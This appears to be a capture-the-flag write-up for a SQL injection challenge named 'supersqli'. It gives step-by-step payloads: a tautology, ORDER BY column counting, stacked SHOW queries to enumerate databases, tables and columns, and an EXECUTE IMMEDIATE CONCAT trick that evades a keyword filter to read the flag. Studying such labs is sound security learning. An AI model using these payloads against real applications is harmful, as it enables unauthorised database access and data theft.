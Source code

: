 # supersqli

![Screenshot from 2021-07-24 23-58-40](https://user-images.githubusercontent.com/87865134/126875746-25f4935e-8d35-49c1-ab55-bc7822b36108.png)

- **SQLi**
- **Searh: `1' or 1=1 #` **
  - > all records

- **How many fields?**
  - `1' order by 3#` => error 1054
  -  `1' order by 2#` => have reccord
    - > 2 fields

- **Check type of fields**
  - `1' union select null, null #`  
  ![Screenshot from 2021-07-25 00-03-31](https://user-images.githubusercontent.com/87865134/126875875-2a0a5a8f-bfa7-4706-b295-410ed87515b8.png)
    - > can't use statement: select, update, delete, drop, insert, where, and .

- **Use other statements of ***MariaDB*** to show data:**   
  - `show databases, show tables, show columns`

- **show all databases:** 
  ```
  a'; show databases#
  ```  
  ![Screenshot from 2021-07-25 00-07-28](https://user-images.githubusercontent.com/87865134/126875975-b1b3530f-1db1-460d-985d-e15487e75e9b.png)

- **show tables in current database:**
  ```
  a'; show tables#
  ```    
  ![Screenshot from 2021-07-25 00-08-54](https://user-images.githubusercontent.com/87865134/126876016-64ba9e33-ff40-4563-bd99-349fb5b2929e.png)

- **Show columns of table ***1919810931114514***:**
  ```
  a'; show columns from `1919810931114514` from supersqli#
  ```  
  ![Screenshot from 2021-07-25 00-10-46](https://user-images.githubusercontent.com/87865134/126876065-8d593ed4-286b-4c36-8eb9-5f0b075408f6.png)

- **Use dynamic SQL to get content of this table:**
  ```
  a' ;EXECUTE IMMEDIATE CONCAT('SELE', 'CT flag FROM `1919810931114514`')#
  ```  
  ![Screenshot from 2021-07-25 00-12-16](https://user-images.githubusercontent.com/87865134/126876109-48487e24-2c84-41c0-8f6d-d128c80146d9.png)

### - Description:
> **category**: SQL injection

### - Reference:
  - [MariaDB SHOW Statement](https://mariadb.com/kb/en/show/)
  - [EXECUTE IMMEDIATE](https://mariadb.com/kb/en/execute-immediate/)


